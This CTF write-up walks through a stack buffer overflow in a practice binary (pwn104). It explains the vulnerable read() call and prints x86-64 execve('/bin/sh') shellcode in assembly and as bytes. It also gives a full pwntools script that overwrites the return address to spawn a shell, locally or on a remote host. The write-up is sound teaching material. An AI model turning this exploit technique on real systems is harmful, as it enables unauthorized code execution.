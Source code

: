 # Challenge 4

![](attachments/db1758d9fb570f0cdb4592108ca57b59.png)

### Vulnerability:
the `read()` call near the end is vulnerable

**Manual:**

![](attachments/4da2419acfc78d004be682f5b527145e.png)

The code is basically calling
`read(stdin, *buf, 200);` - `buf` here being 80 characters.
So we attempt to read up to 200 bytes from *stdin* into the buffer, starting at `buf`
Completely overwriting our buffer and anything past it!

Testing buffer overflow size we end up at 80 (as expected from the code above giving us 0x50 (80))

![](attachments/b5434cd15f15a9dddea075260a58856f.png)

![](attachments/b6b44c7f8def649b29f2d9a59d01ed59.png)

## The Exploit
So we have our opening message, hinting they want us to run our shellcode ("executable powers"), the address you're seeing is where our input starts, the start of our buffer in memory.

![](attachments/d8af53b5d8ae6ac260f5b7d837e7e8c8.png)

As seen here in the code, `[buf]` being the buffer for our input of size `0x50` (80)

![](attachments/a1a007161ea3321b0dfa0b30321ae2f9.png)

So we'll write our shellcode to our buffer, then overflow the buffer to overwrite our RIP and redirect it to the address so it runs our input.
After trying some publicly available ones and the built in pwn-tools shell code without luck, I ended up on this: https://www.exploit-db.com/exploits/46907 -

```assembly
global _start
section .text

_start:
  xor rsi, rsi                ; Set RSI to 0
  push rsi                    ; RSI to stack
  mov rdi, 0x68732f2f6e69622f ; set RDI = "/bin//sh"
  push rdi                    ; Push Value to stack
  push rsp                    ; Push Pointer to value, to stack
  pop rdi                     ; Load pointer to "/bin//sh"
  push 59                     ; Push 59
  pop rax                     ; 59 to RAX ; OPcode for syscall.execve()
  cdq                         ; Copies the sign bit of RAX (0)
  syscall                     ; Sys call ; execve(*rdi, 0, 0)
```

Bytes: 
`\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05`

**CDQ**
The CDQ instruction copies the sign (bit 31) of the value in the EAX (RAX) register into every bit position in the EDX (RDX) register. (more info; https://www.felixcloutier.com/x86/cwd:cdq:cqo )
So because our RAX is currently '59' we get this
```
RAX: 0x000000000000003B
       ^
       |--------------| - Every bit is set to 0
RDX: 0x0000000000000000
```

**Syscall 59**

![](attachments/161a8f3ae54b55ef9fbde3e0e4a2997a.png)

### Exploit script

```python
from pwn import *
import sys

# Shellcode execve("/bin//sh") ; https://www.exploit-db.com/exploits/46907
shell = b'\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05'
shell_size = len(shell)
log.info(f"Shellcode size: {shell_size}")

# Random filler address for RBP
rbp = p64(0xDEADBEEF)

if sys.argv[1] == "local":
    proc = process("./pwn104-1644300377109.pwn104")
else:
    proc = remote(sys.argv[1], int(sys.argv[2]))

# Get Return address
addr = re.search(r'[0][x].*', proc.recvline_regexS('[0][x].*')).group()
log.info(f"Target address: {addr}")
addr = p64(int(addr, 16))

# Finishing Payload, padding shell with NULL-bytes with our 0x50 buffer size
payload = shell.ljust(0x50, b'\x00') + rbp + addr
log.info(f"Payload: {payload}")

# Send payload and go interactive for shell
proc.sendline(payload)
proc.interactive()
```

### Running it remotely:
![](attachments/522e3a7c58a9d4ba85859ff90b6f59c5.png)